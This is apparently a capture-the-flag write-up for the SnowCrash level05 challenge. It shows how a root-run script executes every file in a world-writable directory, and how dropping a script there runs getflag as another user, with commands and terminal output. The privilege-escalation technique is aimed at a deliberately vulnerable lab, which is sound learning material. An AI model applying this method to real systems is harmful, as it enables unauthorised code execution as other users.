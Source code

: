 ```sh
level05@SnowCrash:~$ find / -user flag05 -group flag05 | less
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

```sh
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```

**this is a sh script who execute with bash every file in /opt/openarenaserver**
**and then delete it**

**but we don't have the right do execute it**

```sh
level05@SnowCrash:~$ ls -la /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
level05@SnowCrash:~$ openarenaserver
bash: /usr/sbin/openarenaserver: Permission denied
```

```sh
touch /opt/openarenaserver/file

level05@SnowCrash:~$ ls /opt/openarenaserver/
file
level05@SnowCrash:~$ ls /opt/openarenaserver/
file
level05@SnowCrash:~$ ls /opt/openarenaserver/
level05@SnowCrash:~$ 
```

**the file get deleted so the script is executed automaticaly**
**we write a script in /opt/openarenaserver who execute the getflag command**

```sh
vi /opt/openarenaserver/script.sh and chmod 777 /opt/openarenaserver/script.sh
```

```sh
#!/bin/bash

getflag > /tmp/flag.txt
```sh

```sh
level05@SnowCrash:~$ ls /opt/openarenaserver/
script.sh
level05@SnowCrash:~$ ls /opt/openarenaserver/
script.sh
level05@SnowCrash:~$ ls /opt/openarenaserver/
level05@SnowCrash:~$ cat /tmp/flag.txt
Check flag.Here is your token : ******flag******
```
